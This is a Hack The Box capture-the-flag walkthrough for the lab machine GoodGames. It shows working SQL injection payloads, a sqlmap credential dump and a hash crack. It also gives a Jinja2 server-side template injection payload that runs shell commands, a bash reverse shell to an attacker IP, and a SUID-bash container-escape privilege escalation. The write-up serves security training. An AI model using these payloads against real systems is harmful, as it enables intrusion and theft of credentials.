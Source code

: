# Hackthebox - Good ganes - Linux

## Nmap

```
┌──(root💀kali)-[~]
└─# nmap -T5 -sC -sV -O -p- 10.10.11.130
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-23 19:48 EDT
Nmap scan report for 10.10.11.130
Host is up (0.024s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.51
|_http-title: GoodGames | Community and Store
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 5.3 - 5.4 (94%), Linux 2.6.32 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.4 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: goodgames.htb

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.88 seconds
```

## Port 80

- We have a video game website  
![image](https://user-images.githubusercontent.com/96747355/164950274-5e2afafa-4f06-40d8-ae16-f0c22b7312b7.png)  

We have a SQL injection that allows us to bypass login.
- Request
```
POST /login HTTP/1.1
Host: 10.10.11.130
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: http://10.10.11.130
Connection: close
Referer: http://10.10.11.130/
Upgrade-Insecure-Requests: 1

email=' or 1=1-- -&password=eeeee
```

- Response

```
[STRIPPED]
                   <h1 class="text-main-1" style="font-size: 50px;">Login Successful</h1>

                    <div class="nk-gap"></div>
                    <h2 class="h4">Welcome admintest</h2>

                    <div>Redirecting you to profile page...</div>
                    <div class="nk-gap-3"></div>
[STRIPPED]
```

- Now in our profile page we have settings, it requires de change the /etc/host file though `10.10.11.130    internal-administration.goodgames.htb`
This page has another login thoug so we need to try to dump some data with SQLi  
![image](https://user-images.githubusercontent.com/96747355/164950482-48efcc90-a2c9-4bc6-817b-58c9dd7c2fe0.png)  
- With union we can actually dump some interesting things: `email=' union select 1,2,3,database()-- -&password=eeeee`
  - the current database is main
- We can just save the request in a file and use sqlmap to dump the db
  - In burp we right click on a request (without sql injection) save item  
  ![image](https://user-images.githubusercontent.com/96747355/164950738-cc722c5a-6146-497c-a3ec-5334b52057c9.png)  
  - Save it as request and then we just have to pass it to sqlmap this way `sqlmap -r request -p email` I manually with burp repeater saw tha the database name was main so I can dump it this way `sqlmap -r request -p email --dump -D main`

### SQLmap results

We get the admin hash this way!
```
+----+-------+---------------------+----------------------------------+
| id | name  | email               | password                         |
+----+-------+---------------------+----------------------------------+
| 1  | admin | admin@goodgames.htb | 2b22337f218b2d82dfc3b6f77e7cb8ec |
| 2  | test  | test@test.com       | 098f6bcd4621d373cade4e832627b4f6 |
+----+-------+---------------------+----------------------------------+
```
- We put the hash in crackstation and get the password this way `superadministrator`  
- ![image](https://user-images.githubusercontent.com/96747355/164950810-96d995ad-7fb5-4546-9071-53732b2cde41.png)  

## Volt

- Using the password we can now login to volt  
![image](https://user-images.githubusercontent.com/96747355/164950857-039fa582-2e8b-42a6-92bf-bee93f619107.png)  

- After a look on the platform we can interact in the settings and modify the full name  
![image](https://user-images.githubusercontent.com/96747355/164951414-5e68efef-312f-4dc0-8569-ebcfff451db9.png)  
So this is an injection point with something actually reflected to us. If we look for common flask exploitation we can find an article about [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
If we try the first paylaod mentioned in the article using burp repeater it seems to work:  
![image](https://user-images.githubusercontent.com/96747355/164951469-b8892648-7638-4cc7-9286-e99e9d65e5c8.png)  
We can see that `{{7*7}}` gives 49
- This way we can get the config using `{{config}}`  
```                           
&lt;Config {&#39;ENV&#39;: &#39;production&#39;, &#39;DEBUG&#39;: False, &#39;TESTING&#39;: False, &#39;PROPAGATE_EXCEPTIONS&#39;: None, &#39;PRESERVE_CONTEXT_ON_EXCEPTION&#39;: None, &#39;SECRET_KEY&#39;: &#39;S3cr3t_K#Key&#39;, &#39;PERMANENT_SESSION_LIFETIME&#39;: datetime.timedelta(31), &#39;USE_X_SENDFILE&#39;: False, &#39;SERVER_NAME&#39;: None, &#39;APPLICATION_ROOT&#39;: &#39;/&#39;, &#39;SESSION_COOKIE_NAME&#39;: &#39;session&#39;, &#39;SESSION_COOKIE_DOMAIN&#39;: False, &#39;SESSION_COOKIE_PATH&#39;: None, &#39;SESSION_COOKIE_HTTPONLY&#39;: True, &#39;SESSION_COOKIE_SECURE&#39;: False, &#39;SESSION_COOKIE_SAMESITE&#39;: None, &#39;SESSION_REFRESH_EACH_REQUEST&#39;: True, &#39;MAX_CONTENT_LENGTH&#39;: None, &#39;SEND_FILE_MAX_AGE_DEFAULT&#39;: None, &#39;TRAP_BAD_REQUEST_ERRORS&#39;: None, &#39;TRAP_HTTP_EXCEPTIONS&#39;: False, &#39;EXPLAIN_TEMPLATE_LOADING&#39;: False, &#39;PREFERRED_URL_SCHEME&#39;: &#39;http&#39;, &#39;JSON_AS_ASCII&#39;: True, &#39;JSON_SORT_KEYS&#39;: True, &#39;JSONIFY_PRETTYPRINT_REGULAR&#39;: False, &#39;JSONIFY_MIMETYPE&#39;: &#39;application/json&#39;, &#39;TEMPLATES_AUTO_RELOAD&#39;: None, &#39;MAX_COOKIE_SIZE&#39;: 4093, &#39;SQLALCHEMY_DATABASE_URI&#39;: &#39;sqlite:////backend/project/apps/db.sqlite3&#39;, &#39;SQLALCHEMY_TRACK_MODIFICATIONS&#39;: False, &#39;SQLALCHEMY_BINDS&#39;: None, &#39;SQLALCHEMY_NATIVE_UNICODE&#39;: None, &#39;SQLALCHEMY_ECHO&#39;: False, &#39;SQLALCHEMY_RECORD_QUERIES&#39;: None, &#39;SQLALCHEMY_POOL_SIZE&#39;: None, &#39;SQLALCHEMY_POOL_TIMEOUT&#39;: None, &#39;SQLALCHEMY_POOL_RECYCLE&#39;: None, &#39;SQLALCHEMY_MAX_OVERFLOW&#39;: None, &#39;SQLALCHEMY_COMMIT_ON_TEARDOWN&#39;: False, &#39;SQLALCHEMY_ENGINE_OPTIONS&#39;: {}}&gt;
```
- These slides are also quite helpful, if we try this payload we get the "id" and we are root right away `name={{ namespace.__init__.__globals__.os.popen('id').read() }}`
- Lets grab the flags `name={{ namespace.__init__.__globals__.os.popen('cat /home/augustus/user.txt').read() }}`
- I can not grab the root flag.
- Let's try to get a shell
- We got a shell from the web application (not burp) using this paylaod `{{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.3/5555 0>&1"').read() }}`  
- Then we upgraded our shell 
```
script /dev/null -c bash
ctrl Z
stty raw -echo; fg
reset
```
OR
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

- Than we can make a ping sweep to look for where is the reak machine as we are in a docker container (hence the docker file in the folder)
```
for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
```
![image](https://user-images.githubusercontent.com/96747355/164954211-c899af5a-6b04-44b5-9d7d-c4548c861c73.png)  
- if we ssh with augustus and the same password on 172.19.0.1 we get a user shell

## Privesc

- So we are in 2 env one in a docker with root rights and one in the actual machine with just user rights, let's abuse this to our advantage.
  - Take another reverse shell to the docker (now we have 2 shells)
  - In our augustus shell `cp /bin/bash .`
  - In our root docker shell `chmod 4777 bash`
  - In our augustus `./bash -p`
  - We should be root!
- Let's grab the flag `cat /root/root.txt`

